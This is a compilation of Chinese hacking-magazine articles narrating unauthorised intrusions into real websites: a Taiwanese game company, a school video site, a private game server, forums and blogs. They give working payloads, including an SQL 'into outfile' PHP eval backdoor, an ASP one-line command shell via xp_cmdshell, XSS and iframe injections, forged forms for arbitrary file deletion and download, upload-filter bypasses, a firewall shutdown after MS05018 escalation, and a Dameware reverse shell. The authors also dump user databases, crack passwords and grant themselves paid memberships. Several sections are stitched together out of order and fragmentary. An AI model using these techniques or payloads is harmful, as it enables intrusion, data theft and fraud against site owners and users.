说起这个溢出程序的调试，我和 sagi 老哥都闹了个大笑话，几乎是因为自己没有细细读代码。当初 sagi 哥告诉我，他测试时使用 nc 监听反弹端口，老是提示端口被占用。还以为是程序中出了什么问题，因此改来改去，后来就直接把这个“艰巨”的任务交给了我。我拿到溢出程序时连看都没看，直接编译测试。像往常一样使用 nc 监听端口，结果出现了一样的提示。郁闷啊，后来花了两天时间仔细查看代码才发现，这个老外作者真是想得太周到了，根本不需要我们使用 nc 来监听端口，溢出程序本身就自动监听反弹端口了。

Dameware 服务默认使用的是 6129 端口，我们可以使用 superscan 扫描 6129 端口来寻找提供 Dameware 服务的主机。我匆忙安装好 dameware（我装的是 4.6 版），找了台机器装上服务端。然后抄起编译好的程序就是一通猛试（远处 sagi 做惊恐状：你这是要打架啊还是测试漏洞？），结果服务端程序报警，我这里也没有任何 shell 返回。看样子我们需要修改溢出的返回地址了。原溢出程序中使用的都是针对英文版的返回地址，我都改成了地址 `0x7ffa4512`。修改后我们保存编译，得到的程序运行帮助如下：

使用起来再简单不过了（记得不要犯我的错误啊，不要再用 nc 监听了。Sagi 一旁小声嘀咕：快别摆了，去人！），测试结果如图1。

成功得到了一个反向的 shell，但是同时服务端也弹出了一个错误提示，如图2。

由于本文只是测试的目的，所以只要成功得到了反向 shell 就说明测试成功了。至于这个错误提示，我没有深究。估计是由于 shellcode 或者别的什么引起的，读者朋友可以尝试更换一个其它的 reverse shellcode，或者自己挂上调试器查下原因吧。

> sagi 注：我在我的 2000+sp4+Dameware4.5 下，始终没有测试成功，不知道是什么原因，或许是因为 Dameware 版本的问题吧！

# 尾声

到此，本文又该结束了。希望我写的 DD 能给大家带来些许收获吧。欢迎朋友来 X 档案论坛与我交流：-）

（文章中涉及到的程序 doom.exe 已经收录于光盘中）

## 菜鸟无处不在 入侵防不胜防

我抬头看了看我的 IE 浏览器，打开的是 `www.****.com.tw`——台湾一家游戏开发公司。在 8 月份最新发布的游戏中，这家公司的游戏占了很大的比例。呵呵，看起来还挺有名的嘛，不知道安全性如何。

随便点开一个链接，便来到了一个购物的网页，如图1。它给我一种很熟悉的感觉，是的，它应该是网上下载的 PHP 程序。以前在入侵台湾站点时发现有不少网站的程序使用的都是它。我简单测试了一下，不存在 PHP 注入，后台登录页面为默认的 `/admin/login.php`，不过这些并没有多大的用处，因为我现在并没有它的管理员账号和密码。

再看看是否安装了 phpMyAdmin，直接输入 `http://ip/phpmyadmin/`，得到了一个登录页面（图2）。

还是需要密码啊。不过没有密码也没关系，这里我要介绍 AppServ。这是一套全功能的免费 WWW 服务器架设程序，它整合了 Apache、PHP、MySQL 等等于一体，很方便使用，目前台湾很多网站都采用它来架设服务器。它本身倒是没什么安全问题，不过如果管理员设置不当，就会引发安全问题——可以随意登录 phpMyAdmin，也就是说 phpMyAdmin 登录所需的账号密码对入侵者没有一点限制。

图3  
图4  
图5  
图6  
图7

只要随便试一下就知道了，再就是自己架设一个玩玩。图6是它的默认首页，不过这个首页一般都会被管理员删掉。另外还可以根据 `phpinfo.php` 来判断，`phpinfo.php` 一般在根目录下，有时也在 phpMyAdmin 目录下。找到“PHP Variables”中的 `_SERVER["PATH_TRANSLATED"]` 项（图7），其中标注部分就是 `phpinfo.php` 的绝对路径，其中的 AppServ 很显眼吧，嘿嘿。小心记下这个路径，等一会儿我们还有用呢。

现在的首要任务是上传木马。phpMyAdmin 上传木马的方法不外乎 `select * from cmd into outfile`。好了，在 phpMyAdmin 中输入 SQL 命令（图8）：

```sql
create table cmd(str TEXT);
insert into cmd values('<?php eval($_POST[cmd]);?>');
select * from cmd into outfile 'd:\\appserv\\www\\phpmyadmin\\cmd.php';
drop table cmd;
```

其中 `<?php eval($_POST[cmd]);?>` 是 LANKER 微型 PHP 后门服务端代码，`d:\\appserv\\www\\phpmyadmin\\` 是 phpMyAdmin 的绝对路径，就是我们前面记下的。

确定后成功返回结果（图9），然后用 lanker 微型 PHP 后门客户端连接上传 PHP 木马，再提升权限。本以为入侵会很顺利，却没想到……

上传 PHP 木马返回了出错提示（图10），可能是不允许上传 PHP 文件吧。我重新上传其它文件并没有出错。本想直接写个 PHP 文件进去，可惜手上除了 ANGEL 的 PHPSPY 外没其它木马，而 lanker 微型 PHP 后门客户端创建文件不支持中文字符，PHPSPY 的中文太多，懒得改了。再试着使用其他方法上传木马，发现服务器设置得还不错，内外都很坚固，TFTP、FTP 根本没反应，bing。

带“@”的用户名，密码随便，均能成功登录 phpMyAdmin。

有一点需注意的是，由于设置不同，权限也就不同，不过大部分都是 root 权限。

回到我们的入侵表，输入用户名：“@”，密码为空，确定后成功登录（图3）。看看权限是否 root，再看 `SHOW PROCESSLIST`（图4）、`SELECT * FROM user`（图5），图中的 password（密码）看到了吧。

也许你会问为什么我知道它用的是 AppServ，其实很简单。

# 一个人的战争

www.163.com 返回“Request timed out”，果然禁止了对外连接，可能是防火墙的缘故吧。`net start` 查看开放服务（图11），服务器上运行的是 Sygate Personal Firewall……

exploit 早就出来了，直接在 PHP 后门客户端中上传运行 MS05018.exe PID，这样我们的 PHP 木马就是 ADMIN 权限了，然后再 `net stop "Sygate Personal Firewall"` 关闭防火墙……


目前本地提权的漏洞新出不少，而且许多管理员都不怎么勤快，所以提权并不难，这里我使用的是 MS05018 漏洞进行提权。

> （文章中涉及到工具 LANKER、微型 PHP 后门、MS05018 漏洞利用工具已经收录于光盘中）

## 动易4.3网站管理系统的跨站漏洞

### 寂寞的刺猬

关于跨站，介绍的文章也有许多了，我就不多赘述了，直接进入正题！

- 1. 先看一段源码：
- 2. 再看一下用户列表 userlist.asp 中的部分源码。

```asp
if Action="Modify" then
  Homepage=trim(request("Homepage"))
  ICQ=trim(request("ICQ"))
  MSN=trim(request("MSN"))
  ...
  rsUser.update
end if
```

```asp
homepage=rsUser(db_User_homepage)
QQ=rsUser(db_User_QQ)
icq=rsUser(db_User_icq)
msn=rsUser(db_User_msn)
if homepage="" then homepage="未填" ...
```

```asp
<td width=60%><div align="right">
主页:</div></td>
<td>
<%=homepage%>
</td>
```

在 userinfo.asp（用户信息）中也是类似的源码。从中也可以看出，读取到的数据库内容没做任何检查和过滤就放入到网页中。于是，动易 4.3 网站管理系统的跨站漏洞便出来了。

注册一个用户“5200”，如图1，选择“点击进入用户控制面板”。在“用户控制面板”中，选择上方的“修改个人信息”，在“主页”栏内填入跨站测试代码：


“`<script>alert('hello')</script>`”，如图2。保存修改结果，打开 userlist.asp 文件，弹出一个提示窗，如图3。


存在跨站漏洞。下面重新再写一段跨站代码，在页面中打开另一个网页。输入：`<iframe src=http://www.baidu.com width=100 height=50></iframe>`，保存后再次打开 userlist.asp 文件，如图4，在主页栏内显示出百度网页……

下面的 userlist.asp 中的代码，如果 QQ、MSN 和主页为空的话，系统会自动给其赋值为“未填”……修改跨站代码为：`“未填<iframe src=http://www.baidu.com width=100 height=50></iframe>”`，即可在代码前加入“未填”两个字，显示结果如图5。


查看一下源文件，如图6，可以看到已经打开了百度网页。如果将其中的网址改为网页木马地址，那就在不知不觉的时候打开了木马网页。


同样，在使用 userinfo.asp 查看用户信息时，如图7，也是看不出任何异常……在修改用户信息中，除了主页可利用外，QQ 和 MSN 也可以写入……虽然这个跨站漏洞只是存在于用户列表及用户信息中，但也毕竟是一个安全隐患。

### 一、前言

Ofstar 论坛是一款免费的国产文本论坛……曾发现了一个重大漏洞……处处安全隐患让人揪心。


### 二、漏洞详述

这款论坛到现在，分析发现的漏洞有三处。

- 1. 注册时可定义威望和金钱；
- 2. 任意文件删除漏洞；
- 3. 任意文件下载漏洞；

存在版本是最新版本（估计是通杀）。

#### 漏洞1：注册可定义威望和金钱

首先看的是 register.php 文件……看注册怎么写的。先看过滤 `script` 关键词……哪些数据写到了文本数据库里……跳到 register.php 的第225行。

```php
$rg_usermsg='|$rg_name|$rg_pwd|$rg_email|...|$rg_onlineimg|$rg_iconver|...';
writeover("$userpath/$rg_name.php",$rg_usermsg);
```

仔细看代码，在 “`$rg_icq`” 的地方停下来，CTRL+F 查找这个变量……当文本程序写入的变量没有过滤时，我们可以伪造这个变量后面的其他变量……例如控制注册用户的威望和金钱。

```html
<tr>
  <td class='f_one'>您的icq号码</td>
  <td class='f_one'><input type=text size=20 name='rg_icq' value=''></td>
</tr>
```

### 漏洞利用

先打开 `http://localhost/star`，查看代码并修改 regicq 为 `rg_icq`，再将 form 的 action 改为 `http://localhost/star/register.php`……在原本 QQ 的地方写入构造值，即可获取特定 QQ 号并注册出高威望高金钱用户；若做跨站可继续扩展（如图2、图3）。

php 下载下来并且暴力破解了里面的 MD5，你就可以拥有这个帐号的后台权限，那么你就可以从后台到 webshell。

### 漏洞利用

随便打开一个发帖的页面，查看原文件，修改 `<form method=post name=FORM action=post.php? enctype="multipart/form-data">` 为 `<form method=post name=FORM action=http://localhost/ofstar/post.php? enctype="multipart/form-data">`。你可以替代上面的 `http://localhost/ofstar/` 为你的论坛路径。再修改 `<input type=checkbox name="atc_usesign" value="1" checked>` 使用签名为 `<input type=text name="atc_usesign" value="hacker">` 使用签名，保存为 post.html。打开建立的 post.html，填写好发帖的所有项，在 hacker 的地方写 `../ofstar_data/userdir/saiy.php,Execute.rar,2,0,zip`，其中的 `../ofstar_data/userdir/saiy.php` 是我们要删除和下载的文件（删除了它就可以重新注册 saiy），如图4。


我修改了一个 reg.html，大家可以对照着改。由于篇幅的原因，还是说一说伤害比较大的任意文件删除和任意文件下载漏洞。

### 漏洞2：任意文件删除漏洞

### 漏洞3：任意文件下载漏洞

漏洞说明（这段实在太麻烦，大家仔细点看唉）：看这类代码时，我一般都是直接先看文件写入的地方，所以获取 shell 或是可以利用都是写入地方没有过滤。跳到 require/postnew.php 看看发帖时候是不是有地方没有过滤。第106行代码是这么写的：

```php
$writetodb="<2dje;?>\0...$atc_type|$ofstarid|$atc_iconid|$timestamp|$atc_title|$onlineip|$atc_usesign|$ofstarupload|$ipfrom|$ifconvert|$atc_email|$atc_content|";
writeover("./bbspath/$tid/$tid.php",$writetodb,'ab');
```

我们来看 `atc_usesign` 这个变量是怎么来的，在 post.php 第101行我看到了这样的代码：

```php
if (!$atc_usesign)
    $atc_usesign='0';
```

说白了这句话的意思就是：假设没有提交 `$atc_usesign` 的话，`$atc_usesign` 就等于 0；假设提交了 `$atc_usesign` 的话，`$atc_usesign` 就等于 `$atc_usesign`。所以，我们可以伪造一个根本不存在的附件名为我们要下载的文件或是要删除的文件。伪造起来也十分简单，只要我们发帖的时候，提交的 `$atc_usesign` 等于 `'||要操作的文件名,要显示的文件名,0,0,zip|'`，最后的 zip 是文件的后缀，因为 zip 的文件是可以调用 job.php 里的代码下载的（下载后改名为原来后缀就可以查看代码了，例如 php 代码）。

在这里注意一点，ofstar 的管理员和后台管理密码存放在 `./bbsdata/manager.php` 里，但是你假设把管理员删除（删除 `./ofstar_data/userdir/用户名.php`），你就可以重新注册这个用户名而且具有这个帐号的前台权限。假设你把 `./bbsdata/manager...`


发完帖后，如图5。


删除或是下载都可以了。假设是下载的话，下载完请改后缀回原来文件的后缀。删除了管理员的话可以重新注册前台管理员，你可以下载后台文件来猜密码（MD5，session 验证）。整个漏洞的利用到此结束了。假设有什么不明白的地方可以到 X 的论坛和我讨论。

# 一个人的战争

### 为了模板而入侵

#### 写小泡——ewebeditor 漏洞利用

一个搞网站制作的朋友看上了一家网站，想要他们的模板，于是请我帮忙。不好拒绝，也不想拒绝（谁让雷锋是咱偶像呢，呵呵）。整个站点简洁明快，很适合商业使用。按照习惯先尝试旁注，用明小子的 domain3.5 旁注后发现服务器内有 473 个域名……批量检测发现早就被入侵了，好多的 DIY ASP 在里面。这样我连上传木马都省了，直接借用就可以了。

上传自己的木马后查看，发现无法跳转到想要的网站目录。看来管理员虽然不负责，但是也不是太菜（这年头这样的管理员太多，太正常了）。检测目标网站，成功地发现了注入点，很轻松地就拿到了帐号和密码。都是明文存放的，根本没加密……太适合被人黑了。

马上用 Domain 的管理入口进行扫描，结果却什么也没有得到；又分别用 NBSI 和啊D进行扫描，结果还是什么也没有找到。

打开 FLASHGET 用站点资源搜索器试试，再次失望而归。想起了 GOOGLE，于是便用它的网站级搜索对该站进行了查找，分别查找关键词：管理；登录。结果都是只显示留言本的登录地址……茫然中……于是再查 login.asp，终于找到了（图1）。


马上登录进去，第一次见到这种后台，还以为是他自己制作的呢（图2）。


粗略查看一下他的网站内容，得到了重要数据。原来是使用的 ewebeditor（图3）。


通过查看得知可以上传图片，于是通过查看源代码得到上传文件的 ASP 文件名，试试上传漏洞利用，结果无功而返。看起来 ewebeditor 还是做得不错的嘛（ewebeditor 的工作人员拿板砖“哐”的就飞了过来：喷嚏道：你以为我们是“翔”网站）。先上传格式为 JPG 的 ASP 木马文件（图4），通过查询新添加的数据得到了 JPG 文件的位置。


看到他的系统维护栏里有数据库备份，想起了动网的利用（图5），结果让我很失望，竟然禁止了修改，只能按照他提供的文件以及位置进行备份。这还了得，什么事都他说了算，那咱就不玩了……


查看该页面源代码，将该页另存为一个 HTML 文件。修改了里面的数据（图6），然后利用我先得到的同一服务器上的另外一家网站的后门上传改好的这个文件（图7）。

```html
<form method="post" action=".../ewebeditor/.../backup.asp">
<input type="text" name="dbpath" value="WEBSystem\DB.HDB" />
<input type="text" name="bkpath" value="Databackup" />
<input type="text" name="bkdbname" value="123.asp" />

图6
```


提交确认，哈哈，轻轻松松地就拿下了。剩下的就是扫尾和打包数据。由于比较懒，就上传了海阳2006，直接用它的打包功能把整个网站打包（图8），下载打包后的 MDB 文件，然后再去刚才添加 JPG 的信息管理里，删掉插入的那几个信息。ewebeditor 原来也没什么不好惹的。隐藏了后门文件，也懒得再去权限控制服务器了。在本机解压缩海阳打包下载回来的数据，然后传给朋友，一看时间已经快1个小时了，总算是完事了！


> （文中涉及到的明小子旁注入侵工具 domain3.5、海阳2006 木马已经收录于光盘中）

# 一个人的战争

# 菜菜的明媚漂流~奇诡石会京

eighteen

现在的服务器基本上都安装了网络防火墙，不单限制了非法端口的连接，甚至有的还禁止或过滤了部分服务器本身向外发送的数据包。因此，再像以前那样使用系统漏洞来进行远程溢出入侵几乎是不可能的了。时下使用最多的入侵方法应该就是脚本注入了。注入攻击从2004年开始在国内流行，到现在已经快两年了，防注入的工具和方法也出了不少，可是在网上存在注入漏洞的服务器还是很多，注入攻击依然是入侵的主流方式。

许多MM很早就向我抱怨说学校的电影网站得花钱注册才能看。今天在网上闲得无聊，就想去学校的网站看看电影，并顺便检测一下学校网站的安全性。进入月光影院后，随便点了下就透露着无限的玄机。选了个电影，选择播放，却弹出了一个窗口，如图1。


图1

正如MM所说，观看电影是要收费的。看到URL地址都带有参数，自然想到注入了。随便打开一个观看页面 `http://www.***.com.cn/main/vod/movie.asp?id=112`，凭经验告诉我，这种URL在传递数据变量时是很可能存在注入漏洞的。在后面加一个“'”，回车后，返回如图2。


图2

错误提示“[Microsoft][ODBC Microsoft Access Driver] 字符串的语法错误 在查询表达式 'articleID=109'' 中”。从错误提示中可以看出网站使用的是 asp+access，再用经典的 1=1、1=2 测试法进行测试，分别返回正常显示和出错。现在可以确定，存在明显的注入漏洞。

接下来我的想法是通过“`http://www.***.com.cn/main/vod/movie.asp?id=112;exec master.dbo.XP_cmdshell 'ping 我的IP';--`”来确定 web 服务和 SQL 数据库是不是在同一台主机上。如果是，并且 XP_cmdshell 没有删除的话，我就可以执行命令来插入简单的 asp 后门了。当然前提条件是需要我拥有公网的 IP 地址。不过，很遗憾，我是在内网的。这个问题可以通过设置路由器的转发规则，先暂时把自己的电脑添加到 DMZ 区，这样我的电脑就处在外网了……

过常规的手段了。暴库找管理员用户名和密码，然后找后台登录页面。我从我的黑客工具箱（啊啊，其实是我的邮箱）中随便找了个注入工具——啊D注入工具2.0（当然，如果你喜欢使用手工注入的话，也可以的，不过这会浪费很多时间，但会使你对 SQL 数据库查询技术掌握得更灵活）。把刚才的 URL 地址复制到注入地址中，点击检测后，本来灰色的检测表段按钮变亮了。然后，我点击检测表段，爆出了三个表……然后就是检测字段，看着下面不断闪烁着的 select 命令语句，心情好舒畅呀，如图3。


图3

我把检测出来的所有表的检测内容导出。经查看导出的内容，我发现 lkwiantgo 这个表里存的是管理员密码，而 users 和 vote 表存放的是会员的用户名、密码和注册信息。找到管理员的用户名和密码，剩下的就是找管理员登录页面了。随手在 URL 后面添了个 login.asp，成功跳出了管理员的登录页面（如果你在入侵的时候，猜了几次没猜出来，那就要借助工具了，或者 Google 搜索也可以），如图4。


图4

输入用户名和密码，成功地进入了后台管理页面，而且权限也是超级管理员。看，什么黄金会员、钻石会员全在眼前，如图5。

# 一个人的战争


图5


图6

按下来当然是弄个 ASP 木马了，我已经有了管理员的用户名和密码，就用 xp_cmdshell 在 movie.asp 中插入了经典的一句话后门（测试时曾遇到路径与页面访问问题）。

```asp
"<%=server.createobject("wscript.shell").exec("cmd.exe /c"&request("c")).stdout.readall %>"
```

我喜欢在获得权限后尽可能多地收集信息，为进一步入侵做好准备。在后台里可看到前台用户信息，包括用户名、密码及联系方式；再用信息探测类 ASP 探针可获取主机内网 IP、主机配置信息以及 Web 目录物理路径等。

我添加了十个钻石会员，送给 TMM 一个（从“幼儿园，老师就教导我们奋进的别人”的事说起），入侵到现在就结束了，希望读者能在这些常见的入侵方法中学到一些不常规思路。

# 菜鸟入侵

Y.J.

leadbbs 是一个使用 ASP 语言的 BBS 系统。本文讲述一次入侵网站的过程，完全基于 leadbbs 各类漏洞展开（目标站点地址已隐去）。

目标网站使用动易较新版，直接通过动易获取 webshell 不通；在导航里发现论坛，决定从论坛入手。

### 黑客拿到后台权限

进入论坛后判断为 leadbbs 3.14。先从用户资料修改页面入手：本地修改 htm 中的用户名字段为管理员，利用 cookie 与请求流程进入后台入口，再尝试登录。


图1

leadbbs 数据库默认地址常见为 /data/leadbbs.mdb，可进一步尝试下载并分析。

提到使用 MD5Crack3 可较快破解位数不长的数字型 MD5 密码。

### 黑客上传 webshell

拿到管理员密码后，难点变为 webshell 上传。该论坛对上传类型有限制，常规改后缀恢复法不易直接生效。


图2

通过分析上传参数代码，在允许上传类型校验处做绕过（如插入空格等变通方式）实现通过。

```vb
Dim FobType,N
FobType = Array("htw","ida","asp", _
"asa","idq","cer","cdx","htr","idc", _
"shtm","shtml","stm","printer","asax", _
"ascx","ashx","asmx","aspx","axd")
```

```vb
If InStr(Form("GED")("uploadFile").Type, _
  & FobType(N) & "") Then
  ...
  If InStr(tmpStr, "") Then '在文件后缀名后加空格
    ...
  End If
End If
```

这里根本没有考虑到加了空格，所以加空格后就被 leadbbs 当作另一种格式的文件而通过了，因为代码里禁止上传的扩展名是没有空格的。

禁止扩展名没有空格，允许 ASP 文件上传并不表示万事大吉，还是不能上传 webshell！leadbbs 的上传控制同样严格，就算上传参数允许了，但上传时还是不允许的，怎么办？不怕，我们照搬上面的方法，不使用 NC，我们利用 leadbbs 的上传程序。在上传的地方先选择好要上传的文件，接下来最关键，在路径后面加个空格，如图3。然后再点上传。OK，我们的 webshell 就近在眼前！


leadbbs 总体来说安全性还是不错的，起码漏洞还不是很多，而且上传 webshell 需要后台权限，这样难度就加大了。

## 菜鸟也牛X

### 入侵传奇私服网站

旭方 / xufang0219


关于入侵网站的方法有很多，比如先使用扫描工具对一个服务器狂扫，运气好的话会扫描到缓冲区溢出漏洞，然后利用漏洞利用程序进行溢出，成功的话多半会拿到对方的系统权限。然后就是上传后门，开 3389 终端服务……另外就是利用目前非常流行的脚本注入攻击方法，网上有很多注入工具，对于那些存在注入漏洞的页面一会儿就可以猜解出管理员的密码了。

许多程序员对自己写的程序安全过滤得不严密，甚至根本没有过滤，随便到网上下载一个 ASP 的源程序就能发现很多注入和跨站攻击漏洞。由于 ASP 的编程门槛比较低，很多 ASP 程序员经验不足，写出的程序自然漏洞百出。然后有些站长直接把这些程序下载下来使用，连改都不改，于是自己的站点很容易被入侵。

好了，不多说了，还是来看我这个大菜鸟的一次入侵吧！那天下午学校没课，寝室的哥们儿都建议去上网，我可是个超级网虫，当然是一定去了！网吧里很热闹，不过最近 WOW 和 CS 的居多，我找了台机器坐下，QQ 上好友发来的可怜 T 跑步后，我正式开始了入侵之旅，套用前辈的“好心情”，心情最重要嘛！

打开源码之家的主页 http://www.mycodes.net/，在里面逛了一会儿发现了一个传奇私服的全站系统，名为“心语星空传奇站”。再一看大小，才 2.42M，很轻盈的身材。于是下载下来准备在本地研究。网吧电脑使用的是 Windows XP Pro 系统，而且网管居然还把 IIS 给装上了，哈哈，真是要谢谢网管了！于是我在本机新建了一个虚拟目录，把刚才的源码放进去，打开浏览器，输入 http://127.0.0.1/xycq，进来了，网站美工做得还可以（图1）。浏览了一会儿主页后决定看对方的数据库安全做得怎么样。


这套程序的数据库默认是保存在程序的 Database 目录下的，进去后看到了一个 BT 的分页，数据库名称不再是白痴的 database.mdb 和 data.mdb 了，而被命名为 adsfkldfogowerjnokfdslwejhdfsjhk.mdb 和 useryyewuhjdhjgutweldskjwevyt.mdb（图2）。这种 BT 的名称，估计猜一万年也猜不出来。看来这个系统的开发人员也了解数据库名称被猜解后下载的可能性，于是就改成了这样 BT 的名称。


我们叫 Baidu 帮我们找找看，在地址栏敲入 www.baidu.com，问题是怎样才能快速地找到采用了这套系统的网站呢？前几天看过一位仁兄的漏洞利用动画，他采用的是搜索网站的版权来快速找到有漏洞的网站的。好！我们也来用这种方法！在 Baidu 中输入“心语传奇”，有个小技巧，在输入名称的时候加上双引号可以使结果更加精确。回车，哈哈！有这么多结果！我看了一会儿锁定了一个目标（图4）。进入该网站，网站还是刚刚建成的，里面的信息更新得非常少。

我心想，这样的站点一定存在问题，可问题在哪呢？一步一步试。先试试它的数据库是不是默认的路径和名称……


图3


图6

把刚才得到的那个包含管理员密码的 BT 数据库名称复制出来，在地址栏输入 http://xx.xxx.xx.xx/database/... .mdb 后回车，我差点乐晕过去，居然出来了一个下载对话框（图5）……


图4


图7


图5

于是把他的数据库下载下来，看到了他的管理员账号和密码（图6），但密码是经 MD5 加密过的，接下来我们就可以使用 md5crack 之类的工具来尝试破解这个密码了。很幸运的是这个密码只有六位，而且是纯数字 159753……

其实一切的问题就出在对方的数据库没有改变默认的名称及路径……另外管理员的密码也是纯数字的，密码强度明显不够。真正强壮的后台管理员密码应该是数字、大小写字母、特殊符号相结合，而且要 11 位以上。本文也给那些刚接触黑客技术不久的菜鸟们指出了一种思路：多看源码，利用搜索引擎搜索默认版权来找到目标网站，然后尝试下载默认数据库……

使用得到的密码进入后台，该系统默认的管理员后台登录页面为根目录下的 admin_index.asp，输入得到的密码，成功进入了管理员后台页面（图7）。看见了吗，他的服务器支持 FSO 哦！


# 一个人的战争


今天也就闲着无聊吧，随便找了个网站来入侵，谁知受益非浅，发现了这一套程序的多处漏洞，看来现在许多编写 ASP 代码的程序员还是挺不负责任的，为此感到悲哀。

首先进入目标网站，不用说，很多朋友就是拿起旁注工具狂扫，试图获取 webshell，或者直接得到别人的 diy.asp，就好像当初空口令、系统漏洞火爆入侵的时候，大家拿着 Win2000 自动攻击器天天挂着扫一样。

可是我要提醒大家哦，有许多黑客在入侵网站后，故意留下 diy.asp 这么一个文件，大家别以为捡到宝了，那么容易就得到一个旁注工具自带的免杀 webshell，殊不知这是对方别有用心，早已经在这个页面上挂了马儿了。

### 1. 漏洞——注入

好了，由于我是针对这个目标网站来找漏洞，而不是为了入侵而入侵，所以就不考虑旁注了。直接拿出注入工具来找注入点吧，这毕竟比我们手工找要方便多了，先把主页直接提交给注入工具去扫注入点，不一会儿，注入点扫出来了，如图1。


图1


图2

然后我们来猜测它的数据表以及用户名和密码，点击“SQL注入”，再选择“SQL注入猜解检测”，然后把注入点填写上，点击“开始检测”按钮，当看见回显框提示“恭喜，该URL可以注入！数据库型：Access数据库”，则代表我们成功了。然后就是一系列自动化操作，“猜解表名”->“猜解列名”->“猜解内容”，如图2。

用户名及密码虽然猜解出来了，可是我有点儿失望，因为密码是加密了的，我们可以把这个 md5 加密的密码跑出来，然后再把后台推出来登录就 OK 了。这里我反提一条思路，因为破解这种密码，有时候确实并不是技术，而是运气，倘若对方的密码非常强壮，那就只能怪自己不够幸运了。

### 2. 漏洞——暴库

暴库前我们先对自己的浏览器做一个简单的设置，否则看不到暴库的结果。步骤：打开 IE 浏览器 -> 工具 -> Internet 选项 -> 高级，把“显示友好 HTTP 错误信息”前面的勾给去掉（因为这个选项可是默认情况下选中了的，如图3）。


图3

我们都知道，把网址中的“/”换成“%5c”，然后提交，就是实现暴库的方法。那么原理呢，这里我们简单了解一下吧。“%5c”暴库，它并不是网页本身的漏洞，而是利用了 IIS 解码方式中的一个特性，如果 IIS 安全设置不周全，而网页设计者未考虑 IIS 错误，就会被人利用。应用对象：并不是所有网址都有效，需要“asp?id=”这样的网页地址（表示有调用数据库的行为）。

如果你确认这个网页有调用数据库，后面不是这样的也可以，比如 chklogin.asp 等。好了，了解到此，看我们如何来实现。我们打开网站的“视觉资源”，默认的是 /down1/ 目录，然后随便打开一个页面，把最后的那个斜杠“/”替换为“%5c”，嘿嘿，数据库地址立刻暴出来了（如图4）。


图4

是 asp 后缀的数据库，而且在数据库名中还加上“#”号，看来是为了防止别人下载数据库，可是我们玩过暴库的朋友都知道，可以把“#”替换为“%23”，就可以正常下载数据库了。我们打开看看是否是真的数据库，如图5。


图5

嘿嘿，全部是乱码，表示这个就是数据库，没错了。这里提供两个思路，第一是下载数据库，找到管理员用户名、密码，然后登录后台，想办法得到 webshell；第二个方法就是找到可以写入数据库的地方，例如在线搜索，或者留言，都有可能把一句话木马直接写入这个 asp 数据库中。思路已经提供，大家发挥自己的思维，去思考，看看能否找到突破口？要想做一个真正的黑客，首先必须要自己多实践，多思考才行哟，别老是用别人发现的漏洞，用别人的成果，如果那样，你永远都不会进步的。

### 3. 漏洞——上传漏洞

在入侵中，我看到 down 目录下都是图片，因此我觉得应该有个上传的页面，因为图片不可能全部都在 FTP 上传的，因为那样不方便更新，再加上网站前面没发现有许多漏洞，所以感觉此程序应该不太安全。说不定就存在简单的上传漏洞，这样对于我们获取 webshell 不就又多了一条路吗？于是，就把一些常用的上传页面挨个试验，upfile.asp、upfile_soft.asp、upload.asp……几分钟过后，试验出来了，就是 upload.asp 这个页面，然后我们直接提交一个 asp 木马上传，比想象中还要顺利，竟然上传成功了，我们点击“放大图”，看看其属性，就找到了我们上传的木马的地址，如图6。

嘿嘿，登录一下看看，没错吧，如图7！

我刚才上传了一个旁注自带的免杀小马，后面当然就是写个大马提交上去，然后控服务器、拿权限，这些就随你们了。我留了个警告文本给网站管理员，挨了 DD 就闪了。这次的检测到此也就结束了，不过后来我到百度搜索了一下，发现此站是一套免费程序，总结出了关键字——“3鸟设计 www.3niao.com [v1.2 色彩注视版]”，如图8。


图6


图7


图8

还有更多的关键字都可以让你从百度中找到此类的网站。最后还是那句话——入侵的道路不止一条！多点去实践，你会发现许多东西哦。

## 国外 blog 挂链风暴

对于经常留意漏洞的朋友，我想都会注意到 10 月底 mybloggie 这个漏洞吧，不过漏洞不大，只是个 SQL 注入漏洞，而且此套程序是使用 PHP 语言开发的，熟悉 PHP 的菜菜并不很多，加上又是英文系统，国人使用的就更少了，也因此几乎大多数朋友都给忽视了。前段时间无聊就跟 Alizee 研究了一下，后来我们考虑到方便大家，Alizee 就写出了一个利用工具。嗯嗯，看看多少为小菜着想呀！

这个漏洞的产生主要是因为 username 变量过滤不严，应用 SQL 查询之前在“login.php”中传给“username”参数的输入是不合适的，这样就可以通过注入恶意的 SQL 代码操作 SQL 查询，导致了 SQL Injection，如图1。

好啦，我们打开漏洞利用工具，随便找个 mybloggie 2.x 版本的 blog，然后点击暴账号密码，稍等片刻，如图2。看到了吗？是一个英文网站，账户和密码都给我们暴出来。

可惜暴出来的密码，竟然是 md5 加密的，这里就只有靠破解运气了。我们就把 admin1 那个用户的密码给暴破一下吧。机器配置不好的朋友也不用担心。我们的工具中已经集成了一个 md5 破解的网站给各位了，把密码填上去就可以进行破解了，点击工具中的第二个按钮——破解密码，就会打开破解 md5 密码的网站了，把刚才的密码填入 Search the CRC Database 下面的方框中，再点击 search，等待奇迹吧……哈哈，暴出来了，密码竟然跟用户名一样，也是 admin1，如图3。


图1

登录后台看看吧。输入用户名和密码，进入了管理后台，发现什么都做不了，呵呵，只可以发表新日志、增加管理员、增加普通用户、更改用户，如图4。


图4


图2


图3

至于获得 webshell，暂时似乎没有办法了，此漏洞到此结束。最后为了方便大家测试漏洞，就教大家如何找这类 blog 吧，很简单，看到此 blog 最底下 Powered by myWebland 了吗，这个就是关键词了，可以结合程序名一起搜索，即在 www.google.com 中搜索 “myBloggie 2.x - by myWebland”，这样就可以搜索到许多这类程序了，如图5。切记：此类 blog 是国外程序，所以必须在 Google 下搜索，要是在百度下几乎搜索不到的！


图5

（文中涉及到的工具 MyBloggie.exe 已经收录在了光盘中）

# 移动，网遍任意门

周五杰


手机大家都有吧？移动大家都知道吧？网站大家都会上吧？（开个玩笑，别丢我柿子哦）目前在网上用手机进行消费的项目越来越多，像什么 QB 了、收费电影了……移动可真会赚钱，先不管移动，我们来检测一下移动的网站安全性做得如何。

